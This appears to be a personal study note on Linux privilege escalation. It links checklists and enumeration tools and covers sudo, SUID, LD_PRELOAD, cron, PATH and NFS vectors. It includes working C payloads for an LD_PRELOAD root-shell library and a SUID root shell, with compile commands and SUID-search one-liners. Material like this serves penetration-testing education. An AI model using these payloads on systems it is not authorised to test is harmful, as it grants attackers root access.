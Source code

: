 tags: #type/theory #tech/OS/linux #tactic/privilege-escalation 

---

Useful checklists for privesc:
- [https://github.com/netbiosX/Checklists/blob/master/Linux-Privilege-Escalation.md](https://github.com/netbiosX/Checklists/blob/master/Linux-Privilege-Escalation.md)
- [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md)
- [https://sushant747.gitbooks.io/total-oscp-guide/privilege_escalation_-_linux.html](https://sushant747.gitbooks.io/total-oscp-guide/privilege_escalation_-_linux.html)
- [https://payatu.com/guide-linux-privilege-escalation](https://payatu.com/guide-linux-privilege-escalation)

# scripts
scripts for privesc enumeration:
-   **LinPeas**: [https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS) - best tool :)
-   **LinEnum:** [https://github.com/rebootuser/LinEnum](https://github.com/rebootuser/LinEnum)[](https://github.com/rebootuser/LinEnum)
-   **LES (Linux Exploit Suggester):** [https://github.com/mzet-/linux-exploit-suggester](https://github.com/mzet-/linux-exploit-suggester)
-   **Linux Smart Enumeration:** [https://github.com/diego-treitos/linux-smart-enumeration](https://github.com/diego-treitos/linux-smart-enumeration)
-   **Linux Priv Checker:** [https://github.com/linted/linuxprivchecker](https://github.com/linted/linuxprivchecker)
# vectors:
**Info for specific tools: [https://gtfobins.github.io/](https://gtfobins.github.io/)**
goals:
- incorporate root user
- create root user

find anything with you can run with root priviliges and start shell out of it
	- vi (`:!sh` to start shell)
- if /etc/passwd is writeable: add user with root priviliges
- rewrite PATH: if a program running as root (SUID privilige) calls a system command,  you can c(hange the PATH, so the program will call a "command" you choose/supply to it

## Sudo priviliges
`sudo -l` to see what commands the user can run with sudo
Many tools can be used to spawn a shell, that in turn also has root privs

## SUID/GUID binaries
find all files with SUID permission (those files always run as the file owner, not the user who executes it)
`find / -perm -u=s -type f 2>/dev/null`
`find / -type f -perm -04000 -ls 2>/dev/null`
find all SUID/SGID files:
`find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null`
these files can then be used for privilege escalation

## Kernel exploits
1.  Identify the kernel version
2.  Search and find an exploit code for the kernel version of the target system
3.  Run the exploit
resource:
[https://www.linuxkernelcves.com/cves](https://www.linuxkernelcves.com/cves)
## LD_PRELOAD
LD_PRELOAD is a function that allows any program to use shared libraries.

1.  Check for LD_PRELOAD (use `sudo -l` and look for `env_keep` option)
2.  Write a simple C code compiled as a share object (.so extension) file
3.  Run the program with sudo rights and the LD_PRELOAD option pointing to our .so file

C Code:
```
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/bash");
} 
```  

compile: `gcc -fPIC -shared -o shell.so shell.c -nostartfiles`

## Capabilities
the capabilties of a file can be changed, so a low privilige user can execute just this file 
find files: `getcap -r / 2>/dev/null`
see gtfobins for tool specific info

## Cronjobs
- cronjob running as root: see in `/etc/crontab`
- if file the cronjob is running is accessible by other users -> exploitable

possible scenario in company:
1.  System administrators need to run a script at regular intervals.
2.  They create a cron job to do this
3.  After a while, the script becomes useless, and they delete it  
4.  They do not clean the relevant cron job

## PATH
prerequisites:
- writeable folders in PATH or PATH can be changed
- application with root priviliges relies on PATH

search for writeable folders: `find / -writable 2>/dev/null`
search for subdirectories of writeable folders: `find / -writable 2>/dev/null | cut -d "/" -f 2,3 | grep -v proc | sort -u`
modify PATH: `export PATH=/tmp:$PATH`

## NFS
[[2_Tech-Specifics/Network/Protocols/NFS]]
critical option for privesc: rw, no_root_sqash
1. connect to nfs
2. generate file that launches bash (see section payloads)
3. set ownership of file to "root" and set suid
4. execute on target system -> root shell is started

# Payloads
c code to execute shell with suid and guid set
compile with: `gcc [filename] -o [filename] -w`
set suid with `chmod +s [filename]`
```
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main(void)
{
	setgid(0);
	setuid(0);
	system("/bin/bash -p");
	return 0;
}
```  